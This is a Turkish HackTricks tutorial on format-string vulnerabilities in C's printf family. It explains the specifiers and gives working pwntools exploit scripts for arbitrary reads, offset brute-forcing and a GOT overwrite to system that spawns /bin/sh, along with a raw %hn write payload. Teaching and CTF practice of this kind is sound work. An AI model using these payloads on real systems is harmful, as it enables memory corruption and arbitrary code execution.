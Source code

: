 # Format Strings

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

C'de **`printf`** bazı metinleri **yazdırmak için** kullanılabilen bir fonksiyondur. Bu fonksiyonun beklediği **ilk parametre**, **formatlayıcılarla birlikte ham metin**'dir. Beklenen **sonraki parametreler**, ham metindeki **formatlayıcıları** **değiştirmek için** **değerler**dir.

Diğer savunmasız fonksiyonlar **`sprintf()`** ve **`fprintf()`**'dir.

Zafiyet, bir **saldırgan metni bu fonksiyona ilk argüman olarak kullanıldığında** ortaya çıkar. Saldırgan, **printf format** dizesinin yeteneklerini kötüye kullanarak **herhangi bir adreste (okunabilir/yazılabilir)** **herhangi bir veriyi okumak ve yazmak için** özel bir **girdi oluşturma** yeteneğine sahip olacaktır. Bu şekilde **rastgele kod çalıştırma** imkanı bulur.

#### Formatlayıcılar:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Örnekler:**

* Açık örnek:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normal Kullanım:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Eksik Argümanlarla:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf zayıf:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointer'lara Erişim**

Format **`%<n>$x`**, burada `n` bir sayı, printf'e n parametresini (stack'ten) seçmesini belirtir. Yani, printf kullanarak stack'ten 4. parametreyi okumak istiyorsanız şunu yapabilirsiniz:
```c
printf("%x %x %x %x")
```
ve birinci parametreden dördüncü parametreye kadar okuyabilirsiniz.

Ya da şunu yapabilirsiniz:
```c
printf("%4$x")
```
ve doğrudan dördüncüyü okuyun.

Saldırganın `pr`**`intf` parametresini kontrol ettiğini unutmayın, bu temelde** onun girdiğinin `printf` çağrıldığında yığında olacağı anlamına gelir, bu da belirli bellek adreslerini yığında yazabileceği anlamına gelir.

{% hint style="danger" %}
Bu girişi kontrol eden bir saldırgan, **yığında keyfi adres ekleyebilecek ve `printf`'in bunlara erişmesini sağlayabilecektir**. Bu davranışın nasıl kullanılacağı bir sonraki bölümde açıklanacaktır.
{% endhint %}

## **Keyfi Okuma**

Formatlayıcı **`%n$s`** kullanarak **`printf`**'in **n pozisyonunda** bulunan **adres**i alması ve **bunu bir dizeymiş gibi yazdırması** (0x00 bulunana kadar yazdırma) mümkündür. Yani, ikili dosyanın temel adresi **`0x8048000`** ise ve kullanıcı girdisinin yığında 4. pozisyonda başladığını biliyorsak, ikilinin başlangıcını yazdırmak mümkündür:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Girişin başına 0x8048000 adresini koyamayacağınızı unutmayın çünkü dize, o adresin sonunda 0x00 ile kesilecektir.
{% endhint %}

### Ofseti Bul

Girişinizin ofsetini bulmak için 4 veya 8 bayt (`0x41414141`) gönderebilir ve ardından **`%1$x`** ile **arttırarak** `A'ları` alana kadar değeri artırabilirsiniz.

<details>

<summary>Brute Force printf ofseti</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Ne kadar faydalı

Rastgele okumalar şunlar için faydalı olabilir:

* **Bellekten** **ikili** **veriyi** **dökme**
* **Hassas** **bilgilerin** saklandığı **belleğin belirli kısımlarına** erişim sağlama (örneğin, bu [**CTF zorluğu**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) gibi canary'ler, şifreleme anahtarları veya özel şifreler)

## **Rastgele Yazma**

Formatlayıcı **`$<num>%n`** **yazılan bayt sayısını** **belirtilen adrese** **yazar**. Eğer bir saldırgan printf ile istediği kadar karakter yazabiliyorsa, **`$<num>%n`** ile rastgele bir sayıyı rastgele bir adrese yazabilecektir.

Neyse ki, 9999 sayısını yazmak için girdiye 9999 "A" eklemek gerekmez, bunun yerine **`%.<num-write>%<num>$n`** formatlayıcısını kullanarak **`<num-write>`** sayısını **`num` pozisyonu tarafından gösterilen adrese** yazmak mümkündür.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ancak, genellikle `0x08049724` gibi bir adres yazmak için (bu, bir seferde yazılması gereken BÜYÜK bir sayıdır), **`$hn`** kullanılır, **`$n`** yerine. Bu, **sadece 2 Bayt** yazmaya olanak tanır. Bu nedenle, bu işlem iki kez yapılır; bir kez adresin en yüksek 2B'si için ve bir kez de en düşük olanlar için.

Bu nedenle, bu zafiyet **herhangi bir adrese (keyfi yazma)** **yazmaya** olanak tanır.

Bu örnekte, hedef, daha sonra çağrılacak olan **GOT** tablosundaki bir **fonksiyonun** **adresini** **üst üste yazmak** olacaktır. Bu, diğer keyfi yazma ile exec tekniklerini kötüye kullanabilir:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Bir **fonksiyonu** **üst üste yazacağız** ki bu **fonksiyon**, **kullanıcıdan** **argümanlarını** **alır** ve **`system`** **fonksiyonuna** **işaret eder**.\
Belirttiğimiz gibi, adresi yazmak için genellikle 2 adım gereklidir: Önce adresin 2 Bayt'ını yazarsınız ve sonra diğer 2'sini. Bunu yapmak için **`$hn`** kullanılır.

* **HOB**, adresin 2 yüksek baytına çağrılır
* **LOB**, adresin 2 düşük baytına çağrılır

Daha sonra, format dizesinin nasıl çalıştığı nedeniyle, önce \[HOB, LOB] içindeki en küçüğü **yazmanız** ve ardından diğerini yazmanız gerekir.

Eğer HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Eğer HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Şablonu

Bu tür bir zafiyet için bir exploit hazırlamak üzere bir **şablon** bulabilirsiniz:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ya da [**buradan**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) bu temel örneği inceleyebilirsiniz:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Bir format string zafiyetinin yazma eylemlerini kötüye kullanarak **stack adreslerine yazmak** ve **buffer overflow** türü bir zafiyeti istismar etmek mümkündür.

## Diğer Örnekler & Referanslar

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, relro yok, canary yok, nx, pie yok, stack'ten flag'i sızdırmak için format string'lerin temel kullanımı (işlem akışını değiştirmeye gerek yok)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro var, canary yok, nx, pie yok, `fflush` adresini win fonksiyonu ile (ret2win) üzerine yazmak için format string
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro var, canary yok, nx, pie yok, `.fini_array` içinde main'de bir adres yazmak için format string (böylece akış bir kez daha döner) ve `strlen`'a işaret eden GOT tablosundaki `system` adresini yazmak. Akış main'e döndüğünde, kullanıcı girişi ile `strlen` çalıştırılır ve `system`'a işaret eder, geçilen komutları çalıştırır.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
